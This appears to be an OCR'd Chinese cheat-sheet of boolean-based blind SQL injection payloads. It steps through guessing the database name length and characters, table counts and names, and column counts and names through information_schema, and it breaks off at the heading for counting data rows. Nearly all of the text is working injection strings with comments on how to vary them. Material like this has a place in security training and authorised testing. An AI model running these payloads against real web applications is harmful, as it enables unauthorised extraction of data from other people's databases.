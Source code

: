 ·获取数据库的长度

```
and (select length(database()))>=长度    //可以通过大于等于来进行猜测数据库的长度
```


·逐字猜解数据库名

·逐字猜解数据库名

```
and (select ascii(substr(database(),位数，1)))=ASCII码  //位数的变化即通过ASCII码以及猜解的数据长度求出数据库的库名
```


·猜解表名数量

```
and (select count(table_name) from information_schema.tables where table_schema=database())=数量
```


·猜解某个表的长度

```
and (select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度
//同理n从0来表示变化的表来求该库下的对应的表的长度
```


·逐位猜解表名

```
and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema = database() limit n,1)=ascii码 #从前面的1变化是求表名，而n变化是对应的库中的表
```


·猜解列名数量

```
and (select count(*) from information_schema.columns where table_schema=database() and table_name = 表名)=数量
#information_schema.columns     专门用来存储所有的列
```


·猜解某个列长度

```
and (select length(column_name) from information_schema.columns where table_name="表名" limit n,1)=长度
```


·逐位猜解列名

```
and (select ascii(substr(column_name,位数，1)) from information_schema.columns where table_name="表名" limit n,1)=ascii码
```


·判断数据的数量
